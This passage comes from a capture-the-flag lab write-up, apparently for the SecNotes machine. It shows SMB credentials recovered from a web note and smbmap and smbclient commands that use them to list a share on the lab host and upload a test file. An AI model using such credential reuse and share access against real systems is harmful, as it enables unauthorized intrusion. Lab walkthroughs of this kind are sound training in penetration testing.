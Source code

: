 And then check if password the tyler has been reset to `newpassword`

![[secnotes-11.png]]

Excellent! We are in!

Let's check the contents of this page.

![[secnotes-12.png]]

when we check `new site` we will found some likely password file. Since we know smb was enabled in this machine,  The interesting note is the 3rd, “new site”, which seems to have SMB credentials. Since this is Windows and SSH isn’t running we can try to see if it has SMB share access privileges.

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

### Exploit:  SMB access as tyler

Using the creds from the site, I’ll use `smbmap` to see what I now have access to:

```bash
smbmap -H 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&'
```

![[secnotes-13.png]]

Apparently we could access smb folder.

We are able to see something new here, specifically **new-site**. Enumerating the new-site share we see:

```bash
smbmap -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97 -R new-site
```

![[secnotes-14.png]]

I’ll connect to the SMB share as tyler, and find the basics of a default IIS site (must be 8808 port):

```bash
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
```

Let's try to upload something.

```bash
# kali
echo test > test.txt
```

Put file to smb:

```bash
# smb
put test.txt
```
